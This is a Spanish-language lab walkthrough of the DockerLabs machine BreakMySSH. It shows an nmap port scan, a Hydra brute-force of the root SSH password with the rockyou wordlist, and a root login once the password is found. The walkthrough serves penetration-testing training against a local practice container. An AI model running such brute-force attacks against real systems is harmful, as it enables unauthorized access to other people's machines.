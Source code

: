 ```yaml
---
title: BreakMySSH - DockerLabs
categories: [ Linux ]
tags: [DockerLabs]
---
```


<img src="/assets/img/DLabs/breakmyssh/breakmyssh.png" alt="Captura de pantalla de la máquina BreakMySSH en DockerLabs">

Hoy explotaremos la máquina *BreakMySSH* de [DockerLabs](https://dockerlabs.es/), de dificultad Muy Fácil. Vamos a realizar un ataque de fuerza bruta con **Hydra** para obtener la contraseña del usuario **root.**

## Desplegamos la máquina

```bash
➤ sudo bash auto_deploy.sh tproot.tar
[sudo] contraseña para nmc:

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```



## Escaneo NMAP

Antes que nada, deberemos hacer un escaneo de puertos con **nmap** para encontrar los puertos abiertos y qué servicios corren en ellos.

```bash
➤ nmap -sV -p- --min-rate=100 -T4 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-18 13:14 CST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.51 seconds
```



EEl servicio SSH está activo. Como no encontramos más opciones, realizamos un ataque de fuerza bruta con **Hydra** al usuario **root** de la máquina víctima, usando el diccionario **rockyou.**

## Hydra

Realizamos un ataque de fuerza bruta contra el usuario **root.**

```bash
➤ hydra -l root  -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```



## SSH 

Intentamos la conexión mediante **SSH** con las credenciales obtenidas durante el ataque:

```bash
➤ ssh root@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:U6y+etRI+fVmMxDTwFTSDrZCoIl2xG/Ur/6R0cQMamQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
root@172.17.0.2's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@e250faedf493:~# whoami
root
root@e250faedf493:~# 
```



## Acceso ROOT obtenido

¡Máquina comprometida! Te deseo un feliz hackeo.
